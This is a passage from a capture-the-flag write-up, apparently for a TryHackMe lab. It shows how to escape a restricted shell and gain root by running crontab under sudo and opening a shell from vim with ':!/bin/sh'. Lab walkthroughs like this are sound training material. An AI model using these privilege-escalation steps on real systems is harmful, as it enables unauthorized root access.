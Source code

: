 What it does is it starts the remote shell without loading “rc” profile ( where most of the limitations are often configured) 

When you type `sudo -l`

```console
jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
jeff@tryharder:~$
```

Easy right ?

so i ran `sudo /usr/bin/crontab -e`

which opened `vim` and for getting shell you just need to type `:!/bin/sh`

<a href="/assets/img/thm/jeff/vim.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/jeff/vim.png"></a>

Great now you are now `root`

<a href="/assets/img/thm/jeff/root.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/jeff/root.png"></a>
